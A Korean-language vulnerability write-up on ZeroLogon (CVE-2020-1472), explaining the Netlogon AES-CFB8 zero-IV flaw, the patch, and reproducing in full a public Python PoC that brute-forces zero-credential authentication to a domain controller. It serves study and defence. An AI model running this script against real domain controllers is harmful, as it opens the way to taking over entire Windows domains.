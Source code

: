 ﻿


﻿ZeroLogon 취약점 
==========
Information
-----
* CVE-2020-1472
* 해당 소프트웨어 : Active Directory (Windows Server Directory Service)
* 해당 버젼 : Over Windows Server 2008 R2
*  취약점 유형 : 계정 탈취 취약점

Description
---

해당 취약점은 공격자가 Domain Controller에 대한 TCP 연결을 수립할 수 있다면 Active Directory 상의 모든 계정의 password를 초기화 할 수 있는 취약점이다. 

Root Cause
---
### Active Directory
Active Directory란  Windows Server에서 제공하는 Directory Service
*  Directory Service는 중앙 서버에 공통된 데이터베이스를 생성하여 각 서버와 클라이언트는 해당 데이터베이스를 공유하여 Object를 검색하고 중앙에서 사용자 인증 및 권한 부여 처리가 가능하도록 처리해주는 서비스 

* Domain Controller는 Active Directory를 운영하는 서버 컴퓨터 

* 중앙에 DB를 두고 계정들에 대한 인증을 수행한 후에 요청하는 서비스들을 정상적으로 이용할 수 있다. 
![이미지](/val0ur/CVE/blob/main/CVE-2020-1472/AD%201.PNG)



### Netlogon Protocol
Domain Controller에서 Domain Client를 인증할 때 Netlogon Protocol을 사용한다. 
![이미지](https://github.com/val0ur/CVE/blob/main/CVE-2020-1472/netlogon%20%EC%9D%B8%EC%A6%9D%20%EA%B3%BC%EC%A0%95.PNG)

1. Client와 Server는 Random 8-Byte nonce 값을 교환한다. (Client Challenge, Server Challenge)

2.  KDF를 사용하여 Session Key를 생성한다. 
    > Session Key = KDF(Client PW Hash + Client Challenge + Server Challenge)
  3. Client는 Session Key를 이용해 Client Credential 생성 후 서버로 전송
  4. Server에서 Client가 보낸 Client Credential과 Server에서 계산한 Client Credential이 같으면 정상 Client로 간주하고 Server Credential을 전송 
  5. Client는 만들어진 Session Key를 가지고 이 Credential을 sign + seal 하여 권한이 필요한 작업을 수행한다. 
	  > 4의 인증 수립 후 Message들에 대해 sign + seal을 할지는 Flag 값을 통해 변경 가능 



### Vulnerability
위의 인증과정에서 Client와 Server는 Credential Value를 만들기 위해 NlComputeCredentials 함수를 사용하는데 
암호화 과정에서 IV 값이 0으로 고정되어 있어 발생하는 취약점 

공격자는 해당 취약점을 이용해서 Client Credential을 0으로 만들 수 있고 정상적인 Client로 인증 후 계정의 password를 초기화 시킬 수 있다. 

#### Details 
- NlComputeCredentials 함수는 8-Byte Input(Server 입장에서는 Client Challenge)를 받아 암호화 하여 8-Byte의 Credential을 만든다. 

- 해당 함수는 2DES or AES 암호화를 지원하는데 최근 대부분의 Domain Server는 AES 방식만을 사용한다. 
- 암호화 과정의 NlInitializeCNG 함수를 통해 AES-CFB8을 사용한다는 것을 알 수 있다. 
 ![이미지](https://github.com/val0ur/CVE/blob/main/CVE-2020-1472/NlInitializeCNG%20func.PNG)

##### AES-CFB8
![이미지](https://github.com/val0ur/CVE/blob/main/CVE-2020-1472/AES-CFB8%20encryption.PNG)

- AES-CFB8은 16 바이트의 IV값을 가진다.
- IV에 Session Key를 인자로  AES를 수행하고 나온 결과값의 첫 바이트와 Plain Text의 첫 바이트를 XOR 하여 Cipher Text를 만든다. 
- IV 값이 랜덤 값일 경우에는 평문을 안전하게 암호화 할 수 있지만 NlComputeCredentials 함수에서는 IV 값을 0으로 사용한다. 

		그렇다면 IV 값이 0일 때 생기는 문제는 무엇인가? 

##### AES-CFB8 (when IV = 0)
![이미지](https://github.com/val0ur/CVE/blob/main/CVE-2020-1472/AES-CFB8%20all-zero.PNG)

- IV 값을 Session Key로 AES를 수행한 후 나온 결과값의 첫 바이트가 0이라면 Plain Text도 0이고 Cipher Text도 0인 경우가 생긴다. 

- 공격자 입장에서는 Session Key를 몰라도 암호화한 결과값의 첫 바이트가 0이 되는 경우만 찾으면 Cipher Text도 0이 되므로 해당 취약점을 이용할 수 있다. 

인증은 NetServerAuthenticate3 함수에서 수행하며 NlComputeCredentials를 통해 Server가 계산한 ClientCredential(MADE)과 Client가 보낸  ClientCredential(GOT)가 동일하다면 인증해준다. 

![이미지](https://github.com/val0ur/CVE/blob/main/CVE-2020-1472/NetServerAuthenticate3%20func.PNG)

Patch
---
20년 8월 MS사는 CVE-2020-1472 패치를 출시했고 21년 2월 9일에 추가 패치를 출시할 예정이다. 

- 현재 패치는 Netlogon Protocol을 변경하고,

- 비규격 장치 검색용으로 이벤트를 기록하고, 
- 명시적 예외를 포함하는 모든 도메인 참가 장치에 대한 보호를 사용하도록 설정하는 기능이 추가됐다. 
 

POC
---
공개된 PoC는 아래와 같다. 
```Python

#!/usr/bin/env python3

from impacket.dcerpc.v5 import nrpc, epm
from impacket.dcerpc.v5.dtypes import NULL
from impacket.dcerpc.v5 import transport
from impacket import crypto

import hmac, hashlib, struct, sys, socket, time
from binascii import hexlify, unhexlify
from subprocess import check_call

# Give up brute-forcing after this many attempts. If vulnerable, 256 attempts are expected to be neccessary on average.
MAX_ATTEMPTS = 2000 # False negative chance: 0.04%

def fail(msg):
  print(msg, file=sys.stderr)
  print('This might have been caused by invalid arguments or network issues.', file=sys.stderr)
  sys.exit(2)

def try_zero_authenticate(dc_handle, dc_ip, target_computer):
  # Connect to the DC's Netlogon service.
  binding = epm.hept_map(dc_ip, nrpc.MSRPC_UUID_NRPC, protocol='ncacn_ip_tcp')
  rpc_con = transport.DCERPCTransportFactory(binding).get_dce_rpc()
  rpc_con.connect()
  rpc_con.bind(nrpc.MSRPC_UUID_NRPC)

  # Use an all-zero challenge and credential.
  plaintext = b'\x00' * 8
  ciphertext = b'\x00' * 8

  # Standard flags observed from a Windows 10 client (including AES), with only the sign/seal flag disabled. 
  flags = 0x212fffff

  # Send challenge and authentication request.
  nrpc.hNetrServerReqChallenge(rpc_con, dc_handle + '\x00', target_computer + '\x00', plaintext)
  try:
    server_auth = nrpc.hNetrServerAuthenticate3(
      rpc_con, dc_handle + '\x00', target_computer + '$\x00', nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel,
      target_computer + '\x00', ciphertext, flags
    )

    
    # It worked!
    assert server_auth['ErrorCode'] == 0
    return rpc_con

  except nrpc.DCERPCSessionError as ex:
    # Failure should be due to a STATUS_ACCESS_DENIED error. Otherwise, the attack is probably not working.
    if ex.get_error_code() == 0xc0000022:
      return None
    else:
      fail(f'Unexpected error code from DC: {ex.get_error_code()}.')
  except BaseException as ex:
    fail(f'Unexpected error: {ex}.')


def perform_attack(dc_handle, dc_ip, target_computer):
  # Keep authenticating until succesfull. Expected average number of attempts needed: 256.
  print('Performing authentication attempts...')
  rpc_con = None
  for attempt in range(0, MAX_ATTEMPTS):  
    rpc_con = try_zero_authenticate(dc_handle, dc_ip, target_computer)
    
    if rpc_con == None:
      print('=', end='', flush=True)
    else:
      break

  if rpc_con:
    print('\nSuccess! DC can be fully compromised by a Zerologon attack.')
  else:
    print('\nAttack failed. Target is probably patched.')
    sys.exit(1)


if __name__ == '__main__':
  if not (3 <= len(sys.argv) <= 4):
    print('Usage: zerologon_tester.py <dc-name> <dc-ip>\n')
    print('Tests whether a domain controller is vulnerable to the Zerologon attack. Does not attempt to make any changes.')
    print('Note: dc-name should be the (NetBIOS) computer name of the domain controller.')
    sys.exit(1)
  else:
    [_, dc_name, dc_ip] = sys.argv

    dc_name = dc_name.rstrip('$')
    perform_attack('\\\\' + dc_name, dc_ip, dc_name)
``` 

References
---
[1] [Secura - Zerologon(CVE-2020-1472)](https://www.secura.com/blog/zero-logon)

[2] [PoC - SecuraBV](https://github.com/SecuraBV/CVE-2020-1472)

[3] [A different way of abusing Zerologon](https://dirkjanm.io/a-different-way-of-abusing-zerologon/)




